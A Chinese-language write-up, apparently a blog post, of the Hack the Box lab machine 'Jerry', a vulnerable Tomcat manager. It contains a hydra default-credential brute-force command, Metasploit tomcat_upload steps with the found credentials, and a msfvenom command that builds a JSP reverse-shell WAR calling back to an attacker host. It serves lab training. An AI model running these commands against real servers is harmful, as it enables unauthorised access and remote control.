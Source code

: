 ```yaml
---
title: Jerry
date: 2021-12-24 11:29:39
tags: Hack the Box
categories: 中间件
---
```


## 靶机信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/d5f1dc82530e485e91e914d59c62f9ff.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 信息收集

我们可以看到，目标主机只开放了8080端口，而且版本还是`7.0.88`的
![在这里插入图片描述](https://img-blog.csdnimg.cn/12b2a2ded3544b248ce0ae24e4c30139.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们立马登录tomcat页面，并且尝试账户和密码都是admin，看看能不能登录成功，结果是失败的。
![在这里插入图片描述](https://img-blog.csdnimg.cn/14569a31b1e04d76855654582e15e833.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a1c59a404d30477d9434d5ca81214227.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用

我们下载`seclists`这个工具，对tomcat的默认用户名和密码进行暴力破解
![在这里插入图片描述](https://img-blog.csdnimg.cn/4573275f27314e41997be90a187c528b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们使用hydra工具对账号密码进行破解，发现账号是tomcat，密码是s3cret

```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http://10.10.10.95:8080/manager/html
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2e489a5e1395436f87bbc2c1c05db04b.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### MSF获取权限

```bash
search tomcat_mgr
use exploit/multi/http/tomcat_upload
show options
set rhosts 10.10.10.95
set lhost 10.10.14.11
set httpusername tomcat
set httppassword s3cret
set rport 8080
exploit
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/405b1654a30e4fd8b5ff405938d24a51.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们获取一个shell，发现已经是最高权限了
![在这里插入图片描述](https://img-blog.csdnimg.cn/efd9843d30e5431cbe6ae1408fbcb011.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查看到flag值了
![在这里插入图片描述](https://img-blog.csdnimg.cn/89ecac8618f24fdf9edd6cf96a419036.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

### NC反弹shell

首先我们先准备一个木马

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.11 lport=1234 -f war > shell.war
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/c4abdde92c484b46ac8782a2c62da4fa.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们使用账号密码登录进部署页面，并将生成的木马部署进tomcat服务器上
![在这里插入图片描述](https://img-blog.csdnimg.cn/9dd05049c33f45cf971a5f70a9a6d2e8.png)
然后我们启动nc进行监听，并且在浏览器上浏览我们刚刚上传的war包，反弹shell成功。
![在这里插入图片描述](https://img-blog.csdnimg.cn/fbcd897e89c149549ead8a54352163ae.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/488c679d14e64be28972f71dab63504a.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
